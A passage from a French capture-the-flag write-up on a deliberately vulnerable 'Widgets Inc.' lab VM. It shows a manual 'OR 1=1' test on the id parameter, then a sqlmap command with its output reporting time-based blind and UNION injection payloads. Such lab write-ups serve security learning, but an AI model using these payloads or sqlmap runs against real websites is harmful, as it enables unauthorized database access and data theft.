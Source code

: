 ![Affichage de l'image CTF6_user_view.png](images/CTF6_user_view.png)

Quatre annonces y ont été publiées, numérotées de 1 à 4, mais il s'agit de [faux-texte](https://fr.wikipedia.org/wiki/Lorem_ipsum). Les contacts de cinq salariés de Widgets Inc. figurent en page d'accueil, ces informations seront certainement très utiles par la suite : John Sloan - CEO, Linda Charm - Manager, Fred Beekman - Sales, Molly Steele - Assistant, Toby Victor - Technical.

## Exploitation d'une injection SQL sur le paramètre id

Après quelques tests, on s'aperçoit que l'URL ```http://192.168.56.101/index.php?id=4``` renvoie l'annonce _Suspendisse sapien orci_ tandis que ```http://192.168.56.101/index.php?id=4%20OR%201=1``` renvoie l'ensemble des annonces publiées sur le site ; cela signifie très probablement qu'il y a une injection SQL d'exploitable sur la plate-forme.

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14"
--snip--
[00:11:22] [INFO] testing connection to the target URL
[00:11:22] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[00:11:22] [INFO] testing if the target URL content is stable
[00:11:22] [INFO] target URL content is stable
[00:11:22] [INFO] testing if GET parameter 'id' is dynamic
[00:11:22] [WARNING] GET parameter 'id' does not appear to be dynamic
[00:11:22] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[00:11:22] [INFO] testing for SQL injection on GET parameter 'id'
--snip--
[00:11:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[00:11:22] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
--snip--
[00:11:22] [INFO] target URL appears to be UNION injectable with 7 columns
[00:11:22] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=14 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=14 UNION ALL SELECT NULL,NULL,CONCAT(0x71,0x68,0x71),NULL,NULL,NULL,NULL-- ScYF
---
[00:11:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 5.10
web application technology: PHP 5.2.6, Apache 2.2.3
back-end DBMS: MySQL >= 5.0.12
[00:11:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.101'
```
